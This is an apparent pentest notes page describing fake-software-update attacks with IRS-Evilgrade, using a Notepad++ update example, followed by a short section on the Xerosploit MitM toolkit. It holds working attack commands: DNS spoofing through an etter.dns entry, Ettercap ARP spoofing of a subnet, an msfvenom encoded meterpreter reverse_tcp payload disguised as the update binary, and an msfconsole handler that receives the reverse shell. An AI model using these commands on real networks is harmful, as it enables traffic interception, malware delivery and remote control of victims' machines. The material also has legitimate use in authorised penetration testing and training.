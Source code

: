 # Malicious Update

#### Presenting the victim with a malicious payload as a software update package.

## IRS-Evilgrade

{% embed url="https://github.com/infobyte/evilgrade" %}

Evilgrade is a modular framework that allows the user to take advantage of poor upgrade implementations by injecting fake updates. It comes with pre-made binaries (agents), a working default configuration for fast pentests, and has it's own WebServer and DNSServer modules. Easy to set up new settings, and has an autoconfiguration when new binary agents are set.

#### This framework comes into play when the attacker is able to make hostname redirections (manipulation of victim's dns traffic), and such thing can be done on 2 scenarios:

**Internal scenery:**

* Internal DNS access
* ARP spoofing
* DNS Cache Poisoning
* DHCP spoofing
* TCP hijacking
* Wi-Fi Access Point impersonation

**External scenery:**

* Internal DNS access
* DNS Cache Poisoning

#### installation

```
apt install irs-evilgrade
evilgrade
```

#### start/stop web and DNS server

```
evilgrade> start
evilgrade> stop
```

#### list available modules

```
evilgrade>show modules
```

#### Configure a specified module

```
evilgrade>conf sunjava
evilgrade(sunjava)>
```

#### Show all VirtualHosts.&#x20;

VirtualHost field contains the domains that our webserver is going to emulate for us.

```
evilgrade>show vhosts
```

#### Show options of current module.&#x20;

**agent:** This is our fake update binary, we have to set the path to where it's located or implement a dynamic fake update binary generation (see ADVANCED).

```
evilgrade(sunjava)>show options
```

#### Show status and victims logs

```
evilgrade>show status
```

### Exploitation

we'll look at manipulating the update process of the popular text editor Notepad++. First, we'll use Ettercap to create a MitM attack position and impersonate the notepad-plus.sourceforge.net server used to check for update availability and to deliver the updated software.

Ettercap includes support for manipulating DNS responses, spoofing the DNS response for any hostname you specify in the etter.dns file. On the top of this slide we append to the etter.dns file an A record for "notepad- plus.sourceforge.net," pointing to the attacker at 10.10.10.10

```
echo "notepad-plus.sourceforge.net" A 10.10.10.10" >> /etc/ettercap/etter.dns
```

Next we invoke Ettercap using ARP spoofing to create a MitM attack using the arguments we examined earlier. After Ettercap starts, press "p" to list the available plugins (the list shown on this slide has been trimmed for space). To load the dns\_spoof plugin, which will leverage the etter.dns file to obtain the list of hosts to impersonate, enter the plugin name "dns\_spoof" and press Enter.

```
sudo ettercap -YqM arp:remote /10.10.10.1-254// /10.10.10.1-254//
```

Evilgrade delivers malicious code with local web server

{% hint style="info" %}
Default is agent.exe in isr-evilgrade/agent directory.&#x20;

Replace this file (Notepad clone) or change the "agent" parameter in the module.
{% endhint %}

```
cd /usr/share/irs-evilgrade/agent
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=8080 -f exe --platform windows -e x86/shikata_ga_nai -a x86 > agent.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.56.1; set lport 8080;exploit"
```

The LHOST argument used by the attacker can be set to a specific IP address to launch the listener on a specific interface, or it can be set to 0.0.0.0 to listen and accept connections on all interfaces. In this example, we take advantage of the msfconsole "-x" argument, which allows us to specify all the arguments on the command line, separated by semicolons. Be sure to include quotes around these arguments, as shown in the example on this page, to prevent the shell from interpreting the semicolons as additional shell commands.

#### run evilgrade and configure notepadplus module:

```
evilgrade
evilgrade> conf notepadplus
evilgrade(notepadplus)>show options

```

![](<../../.gitbook/assets/image (296) (1) (1) (1).png>)

```
evilgrade(notepadplus)>start
```

we invoke the "evilgrade" executable to invoke the handler for the Notepad++ software update process. At the "evilgrade>" prompt, enter "conf notepadplus" to invoke the Notepad++ handler. For any Evilgrade module, running "show options" will display configuration information and options that can be manipulated using the "set" command, such as the filename to an alternative executable to deliver to the attacker. Finally, launch the module by issuing the "start" command, which will invoke the Evilgrade web server.

![](<../../.gitbook/assets/image (276) (1).png>)

Evilgrade will log to standard output the status of client requests for updates, as shown on this slide. The first log entry indicates that the Notepad++ client requested the getDownLoadUrl.php page, which checks for an available update. The second entry indicates the client's request for the executable file to download and install, followed by the delivery of the agent/agent.exe file to the victim.

{% hint style="info" %}
Evilgrade-like techniques are still possible, but the proliferation of HTTPS makes upgrade attacks a little more difficult. If a pen tester notices a MitM situation is possible during an update, they are more likely to create a custom script that performs the replacement, rather than use a framework.
{% endhint %}

### Demo

{% embed url="https://www.youtube.com/watch?ab_channel=Unownsec&v=nReKwL93Fnk" %}

## Xerosploit

{% embed url="https://github.com/LionSec/xerosploit" %}

Xerosploit is a penetration testing toolkit whose goal is to perform man in the middle attacks for testing purposes. It brings various modules that allow to realise efficient attacks, and also allows to carry out denial of service attacks and port scanning.

### features:

* Port scanning
* Network mapping
* Dos attack
* Html code injection
* Javascript code injection
* Download intercaption and replacement
* Sniffing
* Dns spoofing
* Background audio reproduction
* Images replacement
* Drifnet
* Webpage defacement and more ...

#### installation

```
git clone https://github.com/LionSec/xerosploit
cd xerosploit && sudo python install.py
sudo xerosploit
```

### Demo

{% embed url="https://www.youtube.com/watch?ab_channel=Neodrix&v=35QUrtZEV9U" %}

## Combine with BeFF and Metasploit

{% embed url="https://sploitech.com/exploiting-tools/how-to-do-advanced-mitm-attacks-with-beef-xerosploit" %}

